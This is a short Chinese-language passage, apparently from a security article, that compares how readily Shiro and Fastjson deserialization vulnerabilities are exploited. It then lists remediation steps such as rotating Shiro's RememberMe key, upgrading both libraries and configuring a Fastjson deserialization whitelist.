- **Fastjson 反序列化**：在低版本中利用相对直接，随着版本更新，虽然官方增加了一系列安全机制来防范，但攻击者仍可以通过不断挖掘新的可利用类和绕过方式来利用漏洞，并且由于 Fastjson 在项目中广泛使用，一旦存在漏洞，被发现和利用的概率较高。

### 修复方式

- **Shiro 反序列化**：修改 Shiro 的 RememberMe 加密密钥，使用强密码生成的随机密钥；升级 Shiro 到安全版本，安全版本对反序列化操作增加了更多的安全校验和防护机制。
- **Fastjson 反序列化**：升级 Fastjson 到安全版本，官方在后续版本中不断修复反序列化漏洞，增加白名单机制等安全特性；如果无法升级版本，可以手动配置安全的反序列化白名单，限制可反序列化的类。


